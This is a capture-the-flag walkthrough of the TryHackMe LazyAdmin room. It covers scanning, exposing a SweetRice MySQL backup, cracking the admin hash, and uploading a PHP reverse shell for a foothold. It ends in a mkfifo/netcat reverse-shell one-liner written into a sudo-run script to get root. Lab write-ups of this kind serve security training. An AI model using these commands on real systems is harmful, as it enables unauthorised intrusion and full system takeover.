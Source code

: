 The first capstone is this one:
- [https://tryhackme.com/r/room/lazyadmin](https://tryhackme.com/r/room/lazyadmin)

# NMAP scan
first of all we need to do a `nmap` scan:
```bash
nmap -T4 -p- -A HOST_IP
```
- ![[Pasted image 20250120115505.png]]
- we have just two ports `ssh` and `http`


# Website enumeration
So we start to enumerate the website on port `80`:
```bash
python3 dirsearch.py -u http://HOST_IP -e php,html -x 400, 401, 403
```
- ![[Pasted image 20250120115642.png]]

There is a `/content` folder, so we visit it:![[Pasted image 20250120115716.png]]

We have `SweetRice` installed, so we search for exploits on google:
- ![[Pasted image 20250120115753.png]]


# sql backup exploit
There is an exploit that gives us the access on the `mysql` backup file.
- ![[Pasted image 20250120115900.png]]

So we try to visit it under the folder `/content`:
```url
/content/inc/mysql_backup
```
- ![[Pasted image 20250120115944.png]]

We open it and we can find the password hash about `admin` user:
- ![[Pasted image 20250120120038.png]]


## Cracking hash password
At this point we go on `CrackStation` and we cracke the hash:
- ![[Pasted image 20250120120147.png]]

The password is `Password123`


# arbitrary file upload exploit
We can study this exploit and we can see that it performs a login on the page `/as/` so we take this info:
- ![[Pasted image 20250120120600.png]]


So we can do it manually at all.
In fact we can visit `/content/as`:
- ![[Pasted image 20250120120651.png]]

We login as `admin:Password123`.


We go on `MediaCenter`:
- ![[Pasted image 20250120120749.png]]


So we download the reverse shell in php:
- [https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php)

And we change the IP and the port on it:
- ![[Pasted image 20250120120917.png]]

Now we run a `nc` listener on our machine:
```bash
nc -nvlp 7777
```

And we upload the file:
- ![[Pasted image 20250120121011.png]]

We click on it and we get a shell:
- ![[Pasted image 20250120121031.png]]


# Privilege escalation
We start with `sudo` checks:
```bash
sudo -l
```
- ![[Pasted image 20250120121110.png]]
- we can run with no password `perl` on a backup script

We give a look at this script:
```bash
cd /home/itguy

cat backup.plp
```
- ![[Pasted image 20250120121225.png]]


So it executes `copy.sh` script...

Let's see what it contains:
```bash
cat /etc/copy.sh
```
- ![[Pasted image 20250120121328.png]]
- it executes a reverse shell on an `192.168.0.190`


So we can try to insert into this `.sh` a new line with a reverse shell to our machine on the same port:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc OUR_IP 5554 >/tmp/f" > /etc/copy.sh
```
- ![[Pasted image 20250120121623.png]]
- it allowed us to insert the line

So we want to run `backup.pl` as `root` with `sudo`. This will run `copy.sh` as root too and we gain a `root` shell.


We set a listener on our machine:
```bash
nc -nlvp 5554
```

And then we run the `backup.pl` script:
```bash
sudo perl /home/itguy/backup.pl
```


And we got a `root` shell:
- ![[Pasted image 20250120121911.png]]

